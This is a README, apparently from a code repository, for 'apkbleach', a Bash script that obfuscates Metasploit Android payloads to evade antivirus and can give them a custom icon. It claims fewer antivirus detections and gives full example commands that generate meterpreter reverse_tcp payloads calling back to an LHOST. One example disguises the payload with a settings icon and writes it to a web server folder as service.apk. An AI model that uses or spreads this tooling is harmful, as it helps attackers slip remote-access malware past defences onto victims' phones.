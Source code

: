 # apkbleach
This BASH script will remove the obvious fingerprints of metasploit through out a given apk file. It also gives the option to inject a custom app icon. This script is constantly being improved so revisions will be made frequently. This is the PUBLIC version of this script thats only triggers 12 of 60 anti-viruses. When the metasploit payload generated by msfvenom with out this script triggers 28 of 60. I am always looking for feed back and ways to improve the code and its techniques. Please feel free to contribute or contact me at graylagx2@gmail.com

! It is highly recomended to let the script generate the payload with nops
   
Usage: 

         Usage: apkbleach -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use> -i <path/to/image.png> -o  <path/to/outputname.apk>

Options: 

      -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use>
          Generates obfuscated payload with nops
  
      -i <path/to/image.png> [ use -i --list ] to list defaults
          Sets image as the icon of the file.apk
  
      -o  <path/to/outputname.apk>
          Sets the name of custom output file
  
      -x <path/to/apk>
          Uses pre generated metasploit payload to obfuscate
  
      -h  Help menu

Examples: 

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444

         ./apkbleach -x /root/msf.apk

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -i ICONS/settings.png 

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -i ICONS/settings.png -o /var/www/html/service.apk
